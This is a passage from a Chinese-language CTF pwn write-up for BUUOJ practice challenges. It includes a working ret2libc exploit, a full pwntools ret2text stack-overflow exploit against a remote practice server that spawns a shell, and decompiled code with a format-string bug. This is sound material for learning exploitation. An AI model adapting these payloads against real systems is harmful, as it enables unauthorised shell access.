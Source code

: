 ```python
libc_base = write_addr - libc.sym["write"]
system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search("/bin/sh"))

success("system_addr   " + hex(system_addr))
success("binsh_addr   " + hex(binsh_addr))


payload = '\x00' + '\xff' * 7
io.sendline(payload)
payload = (0xE7 + 4)  * 'a' +  p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr) 
io.sendlineafter("Correct",payload)


io.interactive()
```

## 0x07 ciscn_2019_en_2
### ans  ret2libc
雷同题： 0x05 ciscn_2019_c_1
### exp
```略```


## 0x08 jarvisoj_level0
### ans  ret2text
read() 长度过大造成的简单栈溢出
### exp
```python
from pwn import *
context.log_level = "debug"

# io = process('./jarvisoj_level0')
io = remote('node3.buuoj.cn','29100')

shell = 0x40059A

payload = 0x88 * 'a' + p64(shell)

io.sendlineafter("Hello, World\n",payload)

io.interactive()
```





## 0x09 [第五空间2019 决赛]PWN5
### ans  格式化字符串
```c++
 v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &unk_804C044, 4u);
  printf("your name:");
  read(0, &buf, 0x63u);
  printf("Hello,");
  printf(&buf);
  printf("your passwd:");
  read(0, &nptr, 0xFu);
  if ( atoi(&nptr) == unk_804C044 )
```